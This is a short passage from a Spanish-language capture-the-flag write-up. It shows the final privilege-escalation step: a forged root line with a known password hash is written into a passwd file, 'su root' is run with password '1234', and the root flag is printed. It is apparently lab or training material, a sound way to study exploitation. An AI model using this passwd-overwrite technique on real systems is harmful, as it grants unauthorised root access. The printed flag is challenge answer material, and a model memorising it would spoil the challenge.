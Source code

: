 Ha estar asi:

```
root:$6$/6tlJOl0i8/AdQok$IFeQVcqfzNLsWPiv7Q14tXtEi2uKehCNSKO8AagiKPqFU7lx2hDgwFs02OxGTXScpB7jRQMqs9zagrmNk19s6.:0:0:root:/root:/bin/bash
```

Guardamos el archivo y ahora haremos lo siguiente.

```shell
su root
```

Ponemos la contraseña que generamos en mi caso `1234` y ya seremos `root` por lo que leeremos la flag.

> root.txt

```
ba10787e7f3a49c890439a44515da649
```

